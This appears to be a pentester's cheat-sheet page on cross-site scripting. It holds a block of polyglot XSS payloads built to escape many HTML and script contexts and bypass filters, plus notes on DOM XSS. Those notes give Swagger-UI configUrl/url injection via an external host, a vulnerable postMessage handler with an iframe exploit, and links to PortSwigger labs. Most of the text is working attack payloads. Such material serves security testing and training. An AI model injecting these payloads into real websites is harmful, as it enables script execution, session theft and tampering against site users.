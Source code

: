 ```jsx
    jaVasCript:/*-/*`/*\\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\\x3csVg/<sVg/oNloAd=alert()//>\\x3e
    ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
    “ onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
    '">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\\></|\\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="<http://i.imgur.com/P8mL8.jpg>">
    javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*
    javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
    javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
    javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
    javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
    javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
    javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*--></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*/</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
    javascript://--></title></style></textarea></script><svg "//' onclick=alert()///</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
```
# DOM XSS
### **Check for Dom-XSS in Swagger-UI**
- [https://github.com/doosec101/swagger_scanner](https://github.com/doosec101/swagger_scanner)
    - configUrl=https://jumpy-floor.surge.sh/test.json
    - ?url=https://jumpy-floor.surge.sh/test.yaml
###  **[DOM XSS using web messages](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages)**
    
**Vulnerable Code**
    
```jsx
    <script>
        window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
        })
    </script>
```
    
**Exploit** 
 ```python
<iframe src="<https://target.com/>" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
    
- **[DOM XSS using web messages and a JavaScript URL](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url)**
- **[DOM XSS using web messages and `JSON.parse`](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse)**
- **[DOM-based cookie manipulation](https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation)**
- **[Exploiting DOM clobbering to enable XSS](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)**
- **[Clobbering DOM attributes to bypass HTML filters](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters)**
